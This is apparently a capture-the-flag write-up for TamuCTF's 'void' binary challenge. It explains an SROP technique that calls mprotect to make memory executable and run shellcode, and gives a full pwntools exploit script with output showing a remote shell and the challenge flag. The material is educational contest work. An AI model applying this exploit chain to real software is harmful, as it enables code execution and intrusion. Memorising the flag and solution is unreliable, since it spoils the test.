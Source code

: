 ## Question 

*Author: sky
*Attack the server and get the flag!
*SNI: void

*[void](void)


## Solution

I didn't solve this one during TamuCTF but I saw ```sky#0004```'s [solve in Discord](https://discord.com/channels/962465945882853407/965296241846145114/965322156965761054) and went back and relooked at the problem with the benefit of their solution. I based my solution largely on their approach. 

I had been stuck on the fact that I needed to call ```sys_mprotect``` to enable RWX permissions. Since there was a ```syscall, ret```, I was hopeful I might be able to ```pop sys_rt_sigreturn (0xf) into rax```, use SROP to call ```sys_mprotect```, and set the ```rdi, rsi, rdx``` registers . However, there were no gadgets to write to rax. I made the mistake of not realizing that ```sys_read``` would return the bytes read into rax. 

After figuring that out, putting the exploit together is pretty straightforward. First make ```sys_read``` syscall to set rax=0xf. Next, use SROP for ```sys_mprotect``` and mark the address of the shellcode as RWX. Return in the program's entry, adjust the stack, and execute the shellcode. 

```python
from pwn import *
import time

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
break *0x401018
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("tamuctf.com", 443, ssl=True, sni="void")
    else:
        return process(e.path)

p = start()

'''0x401000: mov rax, 0; mov rdi, 0; mov rsi, rsp; mov rdx, 0x7d0; syscall; 
   rax = sys_read, rdi = fd = stdin, rsi = char* = 'rsp', rdx = len = 0x7d40 '''
sys_read = 0x401000

'''0x401018: syscall; ret'''
syscall_ret = 0x401018

start = 0x400020 
entry = 0x400018 

'''stack_adjust + shellcode '''
shellcode = asm('add rsp,0x68')
shellcode += asm(shellcraft.sh())

def pause(stage):
    print("[+] Pausing Before Sending Stage: %s" %stage)
    if args.GDB:
       raw_input("[+] Press [Enter] To Send")
    else:
       time.sleep(0.1)

def srop_mprotect():
    chain = p64(sys_read)
    chain += p64(syscall_ret) 

    '''sys_mprotect(rdi=start,rsi=len(shellcode),rdx=prot=RWX)'''
    frame = SigreturnFrame()
    frame.rip = syscall_ret
    frame.rsp = entry
    frame.rax = constants.SYS_mprotect
    frame.rdi = e.address 
    frame.rsi = len(shellcode) 
    frame.rdx = 7

    p.send(chain + bytes(frame))

def read_15_bytes():
    pause("Reading 15 Bytes (rax=0xf=sys_rt_sigreturn) ")
    chain=p64(syscall_ret).ljust(constants.SYS_rt_sigreturn) 
    p.send(chain)

def exec_shellcode():
    pause("Shellcode")
    p.send(p64(start) + shellcode)

srop_mprotect()
read_15_bytes()
exec_shellcode()

p.interactive()
```

Running the exploit returns the flag

```
python3 pwn-void.py BIN=./void REMOTE
[*] '/root/workspace/tamu-ctf/void/void'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './void'
[+] Opening connection to tamuctf.com on port 443: Done
[+] Pausing Before Sending Stage: Reading 15 Bytes (rax=0xf=sys_rt_sigreturn) 
[+] Pausing Before Sending Stage: Shellcode
[*] Switching to interactive mode
$ cat flag.txt
gigem{1_6u355_7h475_h0w_w3_3xpl017_17}
``

